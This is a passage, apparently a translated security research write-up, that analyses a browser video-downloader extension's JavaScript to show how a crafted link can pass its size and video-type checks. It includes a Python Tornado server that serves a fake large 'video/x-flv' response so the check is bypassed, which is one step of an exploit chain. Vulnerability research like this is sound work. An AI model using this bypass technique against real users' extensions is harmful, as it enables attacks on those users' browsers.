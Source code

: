 该脚本会检查链接是否包含`size`属性。在这种情况下，由于没有设置`size`，因此代码会通过`vd.getVideoDataFromServer`来获取链接地址处的文件大小：

```
vd.getVideoDataFromServer = function(url, callback) `{`
    var request = new XMLHttpRequest();
    request.onreadystatechange = function() `{`
        if (request.readyState === 2) `{`
            callback(`{`
                mime: this.getResponseHeader('Content-Type'),
                size: this.getResponseHeader('Content-Length')
            `}`);
            request.abort();
        `}`
    `}`;
    request.open('Get', url);
    request.send();
`}`;
```

上述代码会发起`XMLHTTPRequest`请求来获取指定链接处文件的头部信息，然后提取其中的`Content-Type`和`Content-Length`字段。这些数据会返回给调用方，然后`videoLinks`元素的`size`属性值会被设置为`Content-Length`字段的值。该操作完成后，结果会传递给`vd.addVideoLinkToTabFinalStep`：

```
vd.addVideoLinkToTabFinalStep = function(tabId, videoLink) `{`
    // console.log("Trying to add url "+ videoLink.url);
    if (!vd.isVideoLinkAlreadyAdded(
            vd.tabsData[tabId].videoLinks,
            videoLink.url
        ) &amp;&amp;
        videoLink.size &gt; 1024 &amp;&amp;
        vd.isVideoUrl(videoLink.url)
    ) `{`
        vd.tabsData[tabId].videoLinks.push(videoLink);
        vd.updateExtensionIcon(tabId);
    `}`
`}`;
```

从现在起我们会开始遇到一些问题。我们需要将URL附加到`vd.tabsData[tabId].videoLinks`数组中，但只有当我们通过如下限制条件时才能做到这一点：

```
!vd.isVideoLinkAlreadyAdded(
    vd.tabsData[tabId].videoLinks,
    videoLink.url
) &amp;&amp;
videoLink.size &gt; 1024 &amp;&amp;
vd.isVideoUrl(videoLink.url)
```

`vd.isVideoLinkAlreadyAdded`只是一个简单的条件，判断`vd.tabsData[tabId].videoLinks`数组中是否已记录URL。第二个条件是判断`videoLink.size`是否大于`1024`。前面提到过，这个值来自于`Content-Length`头部字段。为了绕过检查条件，我们可以创建一个简单的Python Tornado服务器，然后创建一个通配路由，返回足够大的响应：

```
...trimmed for brevity...
def make_app():
    return tornado.web.Application([
        ...trimmed for brevity...
        (r"/.*", WildcardHandler),
    ])

...trimmed for brevity...
class WildcardHandler(tornado.web.RequestHandler):
    def get(self):
        self.set_header("Content-Type", "video/x-flv")
        self.write( ("A" * 2048 ) )
...trimmed for brevity...
```
